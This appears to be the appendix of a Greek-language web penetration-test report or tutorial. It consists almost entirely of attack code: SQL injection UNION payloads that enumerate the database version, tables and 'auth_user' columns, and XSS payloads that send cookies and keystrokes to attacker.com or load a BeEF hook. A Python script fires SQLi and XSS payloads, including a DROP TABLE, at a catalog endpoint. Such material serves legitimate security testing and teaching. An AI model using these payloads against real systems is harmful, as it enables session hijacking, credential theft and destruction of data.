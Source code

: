 ```sql
-- Εξαγωγή version
' UNION SELECT NULL,@@version,NULL,NULL,NULL,NULL,NULL--

-- Εξαγωγή tables
' UNION SELECT NULL,table_name,NULL,NULL,NULL,NULL,NULL 
FROM information_schema.tables--

-- Εξαγωγή columns
' UNION SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL 
FROM information_schema.columns WHERE table_name='auth_user'--
```

#### A.2 XSS Payloads

```javascript
// Basic alert
<script>alert('XSS')</script>

// Cookie stealer
<script>document.location='http://attacker.com/steal?c='+document.cookie</script>

// Keylogger
<script>
document.onkeypress = function(e) {
    fetch('http://attacker.com/log?key=' + e.key);
}
</script>

// BeEF hook
<script src="http://attacker.com:3000/hook.js"></script>
```

### Παράρτημα Β: Εργαλεία και Scripts

#### B.1 Automated Testing Script

```python
#!/usr/bin/env python3
import requests
import sys

def test_sqli(url):
    payloads = [
        "' OR '1'='1",
        "' UNION SELECT NULL--",
        "'; DROP TABLE users--"
    ]
    
    for payload in payloads:
        r = requests.get(f"{url}/catalog/?q={payload}")
        if "error" in r.text.lower() or len(r.text) > 5000:
            print(f"[+] Possible SQLi with: {payload}")

def test_xss(url):
    payloads = [
        "<script>alert(1)</script>",
        "<img src=x onerror=alert(1)>",
        "javascript:alert(1)"
    ]
    
    for payload in payloads:
        r = requests.get(f"{url}/catalog/?q={payload}")
        if payload in r.text:
            print(f"[+] Reflected XSS with: {payload}")
```